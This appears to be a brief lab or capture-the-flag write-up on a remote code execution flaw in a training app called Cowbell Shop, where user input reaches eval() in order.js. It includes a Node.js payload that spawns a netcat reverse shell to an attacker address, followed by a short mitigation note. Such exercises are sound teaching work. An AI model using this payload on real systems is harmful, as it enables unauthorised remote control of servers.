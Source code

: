 # Cowbell Shop 5 - RCE
## Security questions

1. Explain the underlying security problem

By searching in all files with ```find ./ -type f -exec grep -Hn "eval(" {} \;```
I found the line that executed the exploit. In file service/order.js:180 eval(...)

The command eval(...) make is possible to execute arbitrary code passed as string.

2. Explain the exploit

By sending ```require('child_process').exec('nc [ethX] 1337 -e sh -c "sh -i"')``` the code was passed to ```eval(require('child_process').exec('nc [ethX] 1337 -e sh -c "sh -i"'))``` and executed the command. Netcat open a reverse shell.


1. Explain mitigation

Not using eval at all and only if it'd really really needed and there is no way to input arbitrary code/input.
